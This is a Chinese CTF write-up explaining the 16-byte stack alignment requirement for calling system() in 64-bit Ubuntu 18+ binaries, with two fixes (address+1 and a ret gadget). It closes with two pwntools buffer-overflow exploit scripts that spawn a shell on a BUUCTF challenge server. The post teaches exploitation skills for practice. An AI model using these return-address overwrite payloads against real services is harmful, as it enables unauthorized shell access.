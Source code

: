 ```yaml
---
title: 关于ubuntu18版本以上调用64位程序中的system函数的栈对齐问题
tags:
 - 探究
 - PWN
---
```

有时候在做64位题目的时候会exp完全没问题，但就是获取不了shell。然后通过gdb调试发现是在最后的system函数执行的时候卡住了，然后就满脸疑惑，这也能卡？？？
<!--more-->
## 为什么执行system函数要栈对齐

其实啊，**64位ubuntu18以上系统调用system函数时是需要栈对齐的**。再**具体一点就是64位下system函数有个movaps指令，这个要求内存地址必须16字节对齐**，如果你到system函数执行的时候，si单步进去就会发现，如果没对齐的话，最后就会卡在这里。


## 对齐？怎么才算对齐？

因为64位程序的地址是8字节的，而十六进制又是满16就会进位，因此我们看到的栈地址末尾要么是0要么是8。如下图

<img src="/upload/img/image-20220411123235507.png" alt="image-20220411123235507" style="zoom:50%;" />


只有当地址的末尾是0的时候，才算是与16字节对齐了，如果末尾是8的话，那就是没有对齐。而我们想要在ubuntu18以上的64位程序中执行system函数，必须要在执行system地址末尾是0。

下面两个图，分别是没对齐和对齐的情况。



![image-20220411123241778](/upload/img/image-20220411123241778.png)

![image-20220411123246818](/upload/img/image-20220411123246818.png)





## 如果执行system的时候没有对齐怎么办？

如果**执行了一个对栈地址的操作指令**（比如pop,ret,push等等，但如果是mov这样的则不算对栈的操作指令），那么**栈地址就会+8或是-8**。**为使rsp对齐16字节，核心思想就是增加或减少栈内容，使rsp地址能相应的增加或减少8字节，这样就能够对齐16字节了。因为栈中地址都是以0或8结尾，0已经对齐16字节，因此只需要进行奇数次pop或push操作，就能把地址是8结尾的rsp变为0结尾，使其16字节对齐。**

这时候有两种解决方法。

1、去将system函数地址+1，**此处的+1，即是把地址+1，也可以理解为**

**+1是为了跳过一条栈操作指令（我们的目的就是跳过一条栈操作指令，使rsp十六字节对齐**，**跳过一条指令，自然就是把8变成0了**）。但又一个问题就是，本来+1是为了跳过一条栈操作指令，但是你也不知道下一条指令是不是栈操作指令，如果不是栈操作指令的话（你加一之后有可能正好是mov这种指令，也有可能人家指令是好几个字节，你加一之后也没有到下一个指令呢），+1也是徒劳的，要么就继续+1，一直加到遇见一条栈操作指令为止（看别的师傅说最大加16次就能成功，不过我不知道为啥）

![image-20220411123250699](/upload/img/image-20220411123250699.png)



**可以看见本来我们应该是用401186这个地址的，但是我们现在要跳过一条指令，那自然就是用401187，这样就跳过了push rbp这条指令。**

2、**直接在调用system函数地址之前去调用一个ret指令。因为本来现在是没有对齐的，那我现在直接执行一条对栈操作指令（自己去寻找一条指令放在system函数地址的前面），这样system函数的指令就一定+8了。**Addr_of_retn 覆盖返回地址，而执行Addr_of_retn 时，其动作又是弹出栈顶地址并跳转执行。因此这种payload执行方式与原始想法的功能相同，而又在栈地址多占了8个字节，使Addr_of_fun调用时，rsp增加了8字节，从而实现了rsp16字节对齐。



因此payload有两种改法（这里我以BUUCTF上的rip题目的wp演示一下）。

```python
from pwn import *
p=remote("node4.buuoj.cn",28002)
payload=23*'A'+p64(0x401186+1)+p64(0)#加1去跳过一个栈操作指令，使其对齐16字节
#p.recvuntil("please input")#这里不知道为啥用recvuntil会报连接超时
p.sendline(payload)
p.interactive()
```

```python
from pwn import *
p=remote("node4.buuoj.cn",28002)
payload=23*'A'+p64(0x401016)+p64(0x401186)+p64(0)#0x401016是一个ret指令，至于怎么来的参考下图 p64(0)是system函数的返回地址
#p.recvuntil("please input")
p.sendline(payload)
p.interactive()
```

<img src="/upload/img/image-20220411123254683.png" alt="image-20220411123254683" style="zoom:50%;" />
